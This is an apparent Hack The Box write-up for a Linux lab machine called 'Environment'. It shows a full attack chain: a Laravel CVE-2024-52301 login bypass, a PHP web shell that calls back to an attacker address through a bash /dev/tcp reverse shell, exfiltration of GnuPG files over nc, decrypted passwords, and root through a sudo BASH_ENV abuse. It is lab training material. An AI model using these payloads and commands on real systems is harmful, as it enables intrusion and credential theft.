





# Description

Environment is a Linux machine. The box involves exploiting a Laravel web application vulnerability (CVE-2024-52301) to bypass authentication and upload a shell. It involves finding and decrypting a GPG backup file to obtain credentials, and finally escalating privileges to root by abusing sudo permissions and the `BASH_ENV` variable.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sun May  4 17:32:43 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt 10.10.11.67
Nmap scan report for 10.10.11.67 (10.10.11.67)
Host is up, received echo-reply ttl 63 (0.031s latency).
Scanned at 2025-05-04 17:32:44 WIB for 33s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack ttl 63 nginx 1.22.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  4 17:33:17 2025 -- 1 IP address (1 host up) scanned in 33.85 seconds
```

Only two ports are open, `22` and `80`. From the `nmap` scan, we can see that the `http` service is redirecting to `http://environment.htb`. Let's add it to the `/etc/hosts` file.

```bash
10.10.11.67 environment.htb
```

# 80 - TCP

The website itself is a simple static page.



## Fuzzing

```bash
> feroxbuster --no-state -n -u http://environment.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
...
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       32l      137w     6603c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        3w       16c http://environment.htb/.php
200      GET        1l       27w     1713c http://environment.htb/build/assets/styles-Bl2K3jyg.css
200      GET        1l      119w     4111c http://environment.htb/build/assets/login-CnECh1Us.css
302      GET       12l       22w      358c http://environment.htb/logout => http://environment.htb/login
200      GET       54l      174w     2391c http://environment.htb/login
405      GET     2575l     8675w   244841c http://environment.htb/mailing
200      GET       87l      392w     4602c http://environment.htb/
405      GET     2575l     8675w   244839c http://environment.htb/upload
404      GET        1l        3w       16c http://environment.htb/.inc.php
200      GET       50l      135w     2125c http://environment.htb/up
301      GET        7l       11w      169c http://environment.htb/storage => http://environment.htb/storage/
301      GET        7l       11w      169c http://environment.htb/build => http://environment.htb/build/
301      GET        7l       11w      169c http://environment.htb/vendor => http://environment.htb/vendor/
404      GET        1l        3w       16c http://environment.htb/.class.php
404      GET        1l        3w       16c http://environment.htb/.js.php
404      GET        1l        3w       16c http://environment.htb/.local.php
404      GET        1l        3w       16c http://environment.htb/.css.php
404      GET        1l        3w       16c http://environment.htb/.settings.php
404      GET        1l        3w       16c http://environment.htb/.phpmailer.php
...
```

There two endpoints that return `405` status code, `/mailing` and `/upload`.<br>

## Enumeration

Visiting `/mailing` reveals that the website runs a Laravel framework in debug mode and the version is `11.30.0` which is vulnerable to [CVE-2024-52301](https://github.com/laravel/framework/security/advisories/GHSA-gv7v-rgg6-548h).



## CVE-2024-52301

After some research, I found a [PoC](https://github.com/Nyamort/CVE-2024-52301) for `CVE-2024-52301`. We just need to add `?--env=VALUE` to change the environment of the application. Testing on the landing page with `?--env=test` will change the value on the footer to `Test`.


That's it, there are no signficant changes on the website. Let's enumerate further. There's `/login` endpoint and it doesn't vulnerable to SQL injection. Because the debug mode is enabled, we can try to pass an invalid value to the POST body. The `remember` parameter is the best candidate because the value is a boolean. Submitting a login request with random `remember` value like `asdf` or an empty value will return another debug error.



There's a code that check if the current environment equals to `preprod`, if it's true, we will bypass the login and get a session with `user_id=1`. To do that, we just need to add `?--env=preprod` to the login URL when doing a POST login request.





## File upload bypass

I can't do much in the dashboard other than logout and update our profile. The server accepts any file extension except `.php` as long the file has image signature. After trying some [Upload Tricks](https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/#upload-tricks), I found out that if I upload a filename that ends with `.`, the last dot will be stripped. For example, `test.php..` becomes `test.php.`, so I just need to upload a file with `.php.` extension to upload an `.php` file.

`shell.php.`:

```php
GIF89a
<?php system('bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"');?>
```

After uploading the file, you should have a reverse shell.

# Shell as www-data

## User flag

```bash
www-data@environment:/home/hish$ cat user.txt
cat user.txt
deadbeef74d6ed5bcdef1d348f3dfake
```

## Backup file

You can find a GPG file at `/home/hish/backup/keyvault.gpg` which is globally readable. The owner of this file is `hish`, so it should be encrypted with hish's key. To decrypt a GPG file, we need the `.gnupg` directory. Because this directory is readable, we can zip it then transfer it to our machine also with the backup file.

```bash
www-data@environment:/home/hish$ zip -r /tmp/gnupg.zip .gnupg backup
```

Then, transfer it using `nc`.

```bash
# Our machine
nc -nvlp 3333 > gnupg.zip
# Victim
nc 10.10.14.66 3333 -w 4 < /tmp/gnupg.zip
```

Unzip and decrypt it using the following command.

```bash
> gpg --homedir ./.gnupg/ -d backup/keyvault.gpg
...
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> <hish_password>
FACEBOOK.COM -> summerSunnyB3ACH!!
```

You can use the password for `environment.htb` to authenticate to the SSH as `hish`.

# Auth as hish

## Sudo access

```bash
hish@environment:~$ sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ file /usr/bin/systeminfo
/usr/bin/systeminfo: Bourne-Again shell script, ASCII text executable
```

Checking for `sudo` access, we get `(ALL) /usr/bin/systeminfo` which is a bash script and `env_keep+="ENV BASH_ENV"` which means when we execute a bash script, the file pointed by the `BASH_ENV` will be executed.

## Root flag

So create a bash script and make it executable then use it as `BASH_ENV` value when executing `/usr/bin/systeminfo` command.

```bash
cd /tmp
echo "/bin/sh" > sheesh.sh
chmod +x sheesh.sh
sudo BASH_ENV=/tmp/sheesh.sh /usr/bin/systeminfo
```

```bash
# cat /root/root.txt
deadbeefcc76be23724a79e9fb2ffake
```
